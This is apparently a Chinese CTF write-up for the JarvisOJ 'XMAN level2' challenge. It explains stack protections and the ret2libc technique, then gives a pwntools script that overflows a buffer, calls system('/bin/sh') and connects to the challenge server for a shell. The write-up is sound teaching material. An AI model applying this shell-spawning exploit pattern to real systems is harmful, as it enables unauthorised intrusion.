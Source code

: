 ```yaml
---
title: JarvisOJ——XMANlevel2题解
date: 2018-08-2 10:24:00
tags:
- CTF
categories:
- CTF
---
```


day3：XMANlevel2


## 一、peda中checksec命令 ##

![XMANlevel2的保护机制情况](/assets/img/checksec2.jpg)

- CANARY：(金丝雀值，指的是矿工曾利用金丝雀来确认是否有气体泄漏，如果金丝雀因为气体泄漏而中毒死亡，可以给矿工预警)，**类似于windows GS技术**，当栈溢出发生时，**canary值将在已保存的指令指针被重写前先改变。[canary放在栈中返回地址前，执行ret前检测canary的值]**系统检测这个值是否改变[ret前]，**若栈溢出发生了，canary修改，那么存储返回地址处的指令指针可能也被修改了，因此不能安全返回，函数会调用__stack_chk_fail函数。这个函数会丢出一个错误然后退出进程。**
	- 缺点：仅保护了sip，未保护应用变量，覆写GOT绕过。 

- FORTIFY:Compile Time Buffer Checks，确定函数执行栈的大小，以避免缓冲区溢出攻击。 

- NX:**No Execute.**现代处理器支持一种称为NX的特性使得系统控制各部分的执行的内存。**即程序栈不可执行。 **
- PIE:**随机化**加载程序的内存地址。 
- RELRO：**RELocation Read-Only (RELRO) 重定位只读**，它能够**保护库函数的调用不受攻击者重定向**的影响。 

## 二、level2解题思路 ##
当遇到NX开启，栈不可执行时，首先查看有没有开启ASLR，即PIE.[对本机查看aslr只是在当前机器下栈随机化情况].checksec观察到PIE: No PIE[没有装载地址随机化]。

说明可以使用ret2libc技术。[如果出现栈随机化+栈不可执行则要使用ROP技术]

ret2libc技术的核心：由于栈不可随机化，那么所有库的位置都是固定的，对于任何可执行文件都会默认自动使用引入一些标准库，比如libc库，libc库中存在system函数[即fork+execve+waitpid，可以开启一个子进程执行命令。]的位置也是固定的，在gdb下使用b main+p system就可得到system的起始地址。在退栈时设置返回地址为system函数首地址，再提供例如“/bin/sh”等实现功能的所需参数即可。

栈布局：

![ret2libc](/assets/img/ret.jpg)

注：exit()是为了正常退出，不会因为调用者栈帧被破坏，报错，影响退出过程[退栈返回地址返回到system，调用system时运行push ebp指令，旧ebp 入栈到Address of system()的位置，ebp指向Address of system()的位置，所以返回地址ebp+4即为Address of exit()[在system执行完，ret的时候，会返回到exit]，而ebp+8是第一个入口参数，恰好为“/bin/sh”的指针/存储地址，由system使用]

具体参考：

- https://blog.csdn.net/linyt/article/details/43643499
- https://www.shellblade.net/docs/ret2libc.pdf ——强烈建议阅读此篇,很清晰讲述了全过程（注意9-11页的阐述）
- http://www.mamicode.com/info-detail-2277563.html


![IDA中的String window--/bin/sh](/assets/img/IDA_bin.jpg)

将Level2拖入IDA，通过shift+F12搜索字符串，会发现/bin/sh[很奇怪的是我在win上用IDA能在level2中搜索到/bin/sh，但是在ubuntu IDA却搜不到，在python中用pwn的ELF模块的search函数能搜索到，说明确实有的]


![system函数](/assets/img/system.jpg)

在IDA左侧的函数列表中也发现了system函数。


因此可以构造system("/bin/sh")，产生shell。

payload = 'a' * (0x88 + 0x4)[任意覆盖] + system函数首地址 + 任意4字节(比如0xdeadbeef或exit函数首地址……) + "/bin/sh"字符串地址

![payload执行流程](/assets/img/process2.jpg)

## 三、解题步骤 ##


     1 #!/usr/bin/env python
     2 # -*- coding: utf-8 -*-
     3 
     4 
     5 from pwn import *
     6 context(arch="i386",os="linux",log_level = 'debug')
     7 
     8 elf = ELF('./level2')  #获得level2文件的ELF
     9 sys_addr = elf.symbols['system'] #system函数地址
    10 sh_addr = elf.search('/bin/sh').next() #搜索/bin/sh字符串地址
    11 
    12 payload = 'a' * (0x88 + 0x4) + p32(sys_addr) + p32(0xdeadbeef) + p32(sh_addr) #p32将0xdeadbeef转化为字符串
	   #0xdeadbeef为system("/bin/sh")执行后的返回地址，可以随便指定，比如exit()函数的返回地址
    13 #  io = process('./level2')
    14 io = remote('pwn2.jarvisoj.com', 9878)
    15 io.sendlineafter("Input:\n", payload) #在收到Input:\n之后才发出payload
    16 
    17 io.interactive()  #交互模式
    18 io.close()


![执行脚本](/assets/img/level2_py.jpg)

![运行情况](/assets/img/level2.jpg)





## 四、system补充 ##

System与execev的区别: system =fork+execve+waitpid,是在单独的进程中执行命令，完了还会回到你的程序中【像是当前父进程中断了，先在子进程中运行你的程序/命令，等待子进程运行完成才继续运行父进程中system之后的代码[子进程还是复制了父进程的栈等内存]】。而exec函数是直接在你的进程中执行新的程序，新的程序会把你的程序覆盖，除非调用出错，否则你再也回不到exec后面的代码，就是说你的程序就变成了exec调用的那个程序了。
